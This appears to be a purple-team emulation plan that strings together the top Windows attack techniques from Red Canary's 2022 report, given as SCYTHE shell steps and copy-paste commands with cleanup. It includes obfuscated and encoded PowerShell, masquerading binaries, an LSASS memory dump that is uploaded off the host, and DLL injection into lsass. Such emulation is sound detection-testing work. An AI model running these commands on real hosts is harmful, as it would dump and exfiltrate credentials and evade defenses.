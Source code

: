 # Red Canary - Emulation Plan

Red Canary is legitimate company and not a threat actor. However, they release actionable Cyber Threat Intelligece and hence why we have added it to our community threats GitHub.

## 2022 Threat Detection Report
Red Canary released the 2022 Threat Detection Report in March 2022 and it includes the top techniques they observed over the past year: https://redcanary.com/threat-detection-report/techniques/ 

### Automated Emulation with SCYTHE
This threat chains together the top techniques from the Red Canary 2022 Threat Detection Report.

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/RedCanary
4. Create a new campaign `RedCanary2022TDR` with HTTPS
5. Import from Existing Threat: `RedCanary2022TDR`
6. Launch the Campaign

### Manual Emulation with SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a SCYTHE shell:
```
loader --load run
run powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
run cmd.exe "%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt"
run rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe
run wmic /node:"127.0.0.1" process call create "calc.exe"
run powershell (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt
run schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt"
loader --load downloader
downloader --src VFS:/shared/threats/RedCanary/obfuscation.ps1 --dest .\obfuscation.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\obfuscation.ps1
run cmd.exe /c copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe
run cmd.exe /c C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
downloader --src VFS:/shared/threats/RedCanary/tweet.ps1 --dest .\tweet.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1
run cmd.exe /c copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
run cmd.exe /c copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
run cmd.exe /c %APPDATA%\updater.exe -Command exit
controller --integrity
If step 18 does not contain "High" goto step 24
run powershell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full
loader --load uploader
uploader --remotepath C:\Windows\Temp\lsass.dmp
run powershell mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll
STEP = CLEANUP
run wmic process where name="notepad.exe" delete
run wmic process where name="Calculator.exe" delete
run cmd.exe /c del hello.txt
run cmd.exe /c del tweet.ps1
run cmd.exe /c del obfuscation.ps1
run cmd.exe /c del LICENSE.txt
run cmd.exe /c del C:\Windows\Temp\notepad.exe
run cmd.exe /c del C:\Windows\Temp\svchost.exe
run cmd.exe /c del %APPDATA%\updater.exe
run cmd.exe /c del %APPDATA%\amsi.dll
run schtasks /Delete /TN CMDTestTask /F
controller --integrity
If step 35 does not contain "High" goto step 38
run cmd.exe /c del C:\Windows\Temp\lsass.dmp
controller --shutdown
```

### Manual Emulation without SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a target host by copying and pasting these procedures:
1.  `powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
2. `%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del hello.txt` 
3. `rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`
4. `wmic /node:"127.0.0.1" process call create “calc.exe”`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="calc.exe" delete`
    * Note the version of Windows may call the process `Calculator.exe` or `CalculatorApp.exe`
5. `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full`
    * Execute this from a privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\lsass.dmp`     
6. `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt`
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`   
    * Clean up by executing: `del LICENSE.txt`
7. `mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll`
    * Execute this from a privileged powershell.exe
    * Clean up by rebooting
8. `schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR ""cmd /c date /T > C:\Windows\Temp\current_date.txt"`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `schtasks /Delete /TN CMDTestTask /F`
9. ```$cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )```
    * Execute this from a non-privileged powershell.exe
10. `copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe` & `C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\notepad.exe`
11. `Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1`
    * Download tweet.ps1 to the working directory 
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `del $Env:windir\Temp\svchost.exe`
12. `copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe` & `copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll` & `%APPDATA%\updater.exe -Command exit`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del %APPDATA%\updater.exe` & `del %APPDATA%\amsi.dll`